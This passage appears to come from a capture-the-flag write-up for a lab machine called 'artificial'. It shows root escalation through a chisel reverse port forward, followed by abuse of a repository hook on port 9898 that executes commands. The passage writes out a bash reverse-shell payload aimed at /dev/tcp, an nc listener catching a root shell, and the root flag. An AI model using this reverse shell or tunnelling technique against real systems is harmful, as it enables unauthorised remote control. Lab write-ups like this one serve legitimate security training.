 Since it is running on port 9898 we can port forward using chisel:
```bash
./chisel server --port 9001 --reverse
./chisel client 10.10.14.163:9001 R:9898:localhost:9898
```

We can create a repo with the following settings, the configured hook allows us to execute system commands:
![Pasted image 20250829143500.png](/images/Pasted image 20250829143500.png){: .normal }


To execute the command, we can press on "Check Now":
![Pasted image 20250829144011.png](/images/Pasted image 20250829144011.png){: .normal }


Checking if the file was created:
```bash
ls -al /tmp
-rw-r--r--  1 root root    0 Aug 29 12:39 root
```

Change payload to:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.163/80 0>&1'
```

Now press on "Check Now" to trigger the shell:
```bash
nc -lvnp 80 
listening on [any] 80 ...
connect to [10.10.14.163] from (UNKNOWN) [10.10.11.74] 45810
bash: cannot set terminal process group (36317): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Root.txt: `6507add9e428981bef0ba1f54d7fc261`
```bash
root@artificial:~# cat root.txt
6507add9e428981bef0ba1f54d7fc261
```


### PWNED!!!
![Pasted image 20250829144244.png](/images/Pasted image 20250829144244.png){: .normal }